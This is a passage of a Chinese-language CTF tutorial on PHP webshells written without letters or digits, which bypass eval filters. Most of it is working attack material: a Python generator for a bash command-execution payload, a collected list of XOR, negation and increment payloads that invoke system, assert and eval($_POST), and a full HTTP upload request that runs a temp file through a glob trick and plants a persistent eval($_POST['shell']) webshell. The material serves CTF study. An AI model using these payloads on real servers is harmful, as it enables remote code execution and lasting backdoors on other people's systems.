)\'
```



同样的，POST的话记得编码一下：



可以看到我们的payload其实也就替换了两个xx=$(())，所以如果大家还找到什么值为零的变量的话替换这两个即可。

利用脚本：

```
cmd='cat /flag'

payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```

## 后记

本质上还是参考了一些优秀师傅的思路，不过最后走出了一条属于自己的路还是挺开心的，各位大佬轻喷。


# 总结

其实上面方法的思路大多数都是一样的，就是表示出各个字母进而执行函数。学习过程中也可对PHP的动态性有更深的理解。但如P神所说，这种方法构造出来的webshell由于不包含字母数字，熵值很高，一看就有问题，所以一般也只在CTF中存在，实战一般不存在这种情况。

# 收集一些常用的payload

## 异或payload

```php
1. ?code=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo  // ${_GET}{%ff}();&%ff=phpinfo
    
2. ?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%90%9C%97%8A%C8%A2%D6%D6);  //?code=assert(eval($_POST[mochu7]));别忘了后面的分号

3. ?cmd=$_ = "!((%)("^"@[[@[\\";$__ = "!+/(("^"~{`{|";$___ = $$__;$_($___[_]);   //

4. ?cmd=$_=[];$__=$_.$_;$_=($_==$__);$__=($_==$_);$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];$___($$____[_]);//?cmd=system($_POST[_]);
```

## 取反payload

```php
1. PS C:\Users\Administrator> php -r "echo urlencode(~'phpinfo');"                                      
%8F%97%8F%96%91%99%90
payload: ?code=(~%8F%97%8F%96%91%99%90)(); //phpinfo();

2. ?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27a%27])
//?code=${_GET}[_](${_GET}[__]);&_=assert&__=eval($_POST['a'])
// assert(eval($_POST['a']))

```

## post传参的payload

```php
//POST传参数的payload,注意拿到burp发包，不要编码，不要用hackbar
cmd=$_=(_/_._)[_];$_%2b%2b;$%FA=$_.$_%2b%2b;$_%2b%2b;$_%2b%2b;$_=_.$%FA.%2b%2b$_.%2b%2b$_;$$_[_]($$_[%FA]);&_=system&%FA=tac f*
//解码就是   
cmd=$_=(_/_._)[_];$_++;$ú=$_.$_++;$_++;$_++;$_=_.$ú.++$_.++$_;$$_[_]($$_[ú]);&_=system&ú=tac f*
    
    
    
//这个payload编码与否都行 cmd=system($_POST[_]);&_=tac f*
cmd=$_%3d[]%3b$__%3d$_.$_%3b$_%3d($_%3d%3d$__)%3b$__%3d($_%3d%3d$_)%3b$___%3d~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__]%3b$____%3d~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__]%3b$___($$____[_])%3b&_=tac f*
//解码就是
cmd=$_=[];$__=$_.$_;$_=($_==$__);$__=($_==$_);$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];$___($$____[_]);&_=tac f*

    
```


```php
<?php
$__=[]==[];
$_=~((样)[$__]);
$_.=~((上)[$__]);
$_.=~((了)[$__]);
$_.=~((站)[$__]);
$$_[$__]($$_[$__.$__]);

?1=assert&11=phpinfo();
```

# 无字母数字webshell之提高篇

**copy自phithon**

```php
<?php
  if(isset($_GET['code'])){
  $code = $_GET['code'];
if(strlen($code)>35){
  die("Long.");
}
if(preg_match("/[A-Za-z0-9_$]+/",$code)){
  die("NO.");
}
eval($code);
}else{
  highlight_file(__FILE__);
}
```

这个代码如果要getshell，怎样利用？

这题可能来自是我曾写过的一篇文章：《[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)》，里面介绍了如何构造无字母数字的webshell。其中有两个主要的思路：

1. 利用位运算
2. 利用自增运算符

当然，这道题多了两个限制：

1. webshell长度不超过35位
2. 除了不包含字母数字，还不能包含$和_

难点呼之欲出了，我前面文章中给出的所有方法，都用到了PHP中的变量，需要对变量进行变形、异或、取反等操作，最后动态执行函数。但现在，因为$不能使用了，所以我们无法构造PHP中的变量。

所以，如何解决这个问题？

## [PHP7 下简单解决问题](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#php7)

我们将上述代码放在index.php中，然后执行docker run --rm -p 9090:80 -v `pwd`:/var/www/html php:7.2-apache，启动一个php 7.2的服务器。

php7中修改了表达式执行的顺序：http://php.net/manual/zh/migration70.incompatible.php ：



PHP7前是不允许用($a)();这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过('phpinfo')();来执行函数，第一个括号中可以是任意PHP表达式。

所以很简单了，构造一个可以生成phpinfo这个字符串的PHP表达式即可。payload如下（不可见字符用url编码表示）：

```plain
(~%8F%97%8F%96%91%99%90)();
```



## [PHP5的思考](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#php5)

我们使用docker run --rm -p 9090:80 -v `pwd`:/var/www/html php:5.6-apach来运行一个php5.6的web环境。

此时，我们尝试用PHP7的payload，将会得到一个错误：



原因就是php5并不支持这种表达方式。

在我在知识星球里发出帖子的时候，其实还没想到如何用PHP5解决问题，但我有自信解决它，所以先发了这个小挑战。后来关上电脑仔细想想，发现当思路禁锢在一个点的时候，你将会钻进牛角尖；当你用大局观来看待问题，问题就迎刃而解。

当然，我觉得我的方法应该不是唯一的，不过一直没人出来公布答案，我就先抛钻引玉了。

大部分语言都不会是单纯的逻辑语言，一门全功能的语言必然需要和操作系统进行交互。操作系统里包含的最重要的两个功能就是“shell（系统命令）”和“文件系统”，很多木马与远控其实也只实现了这两个功能。

PHP自然也能够和操作系统进行交互，“反引号”就是PHP中最简单的执行shell的方法。那么，在使用PHP无法解决问题的情况下，为何不考虑用“反引号”+“shell”的方式来getshell呢？

## [PHP5+shell打破禁锢](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#php5shell)

因为反引号不属于“字母”、“数字”，所以我们可以执行系统命令，但问题来了：如何利用无字母、数字、$的系统命令来getshell？

好像问题又回到了原点：无字母、数字、$，在shell中仍然是一个难题。

此时我想到了两个有趣的Linux shell知识点：

1. shell下可以利用.来执行任意脚本
2. Linux文件名支持用glob通配符代替

第一点曾在《 [小密圈里的那些奇技淫巧](https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html) 》露出过一角，但我没细讲。.或者叫period，它的作用和source一样，就是用当前的shell执行一个文件中的命令。比如，当前运行的shell是bash，则. file的意思就是用bash执行file文件中的命令。

用. file执行文件，是不需要file有x权限的。那么，如果目标服务器上有一个我们可控的文件，那不就可以利用.来执行它了吗？

这个文件也很好得到，我们可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。

第二个难题接踵而至，执行. /tmp/phpXXXXXX，也是有字母的。此时就可以用到Linux下的glob通配符：

- *可以代替0个及以上任意字符
- ?可以代表1个任意字符

那么，/tmp/phpXXXXXX就可以表示为/*/?????????或/???/?????????。

但我们尝试执行. /???/?????????，却得到如下错误：



这是因为，能够匹配上/???/?????????这个通配符的文件有很多，我们可以列出来：



可见，我们要执行的/tmp/phpcjggLC排在倒数第二位。然而，在执行第一个匹配上的文件（即/bin/run-parts）的时候就已经出现了错误，导致整个流程停止，根本不会执行到我们上传的文件。

思路又陷入了僵局，虽然方向没错。

## [深入理解glob通配符](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#glob)

大部分同学对于通配符，可能知道的都只有*和?。但实际上，阅读Linux的文档（ http://man7.org/linux/man-pages/man7/glob.7.html ），可以学到更多有趣的知识点。

其中，glob支持用[^x]的方法来构造“这个位置不是字符x”。那么，我们用这个姿势干掉/bin/run-parts：



排除了第4个字符是-的文件，同样我们可以排除包含.的文件：



现在就剩最后三个文件了。但我们要执行的文件仍然排在最后，但我发现这三个文件名中都不包含特殊字符，那么这个方法似乎行不通了。

继续阅读glob的帮助，我发现另一个有趣的用法：



就跟正则表达式类似，glob支持利用[0-9]来表示一个范围。

我们再来看看之前列出可能干扰我们的文件：



所有文件名都是小写，只有PHP生成的临时文件包含大写字母。那么答案就呼之欲出了，我们只要找到一个可以表示“大写字母”的glob通配符，就能精准找到我们要执行的文件。

翻开ascii码表，可见大写字母位于@与[之间：



那么，我们可以利用[@-[]来表示大写字母：



显然这一招是管用的。

## [构造POC，执行任意命令](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#poc)

当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。

最后，我传入的code为?><?=`. /???/????????[@-[]`;?>，发送数据包如下：

```php
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: xxxxxx:2333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 106

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > success.php
----------123--
```

成功执行任意命令。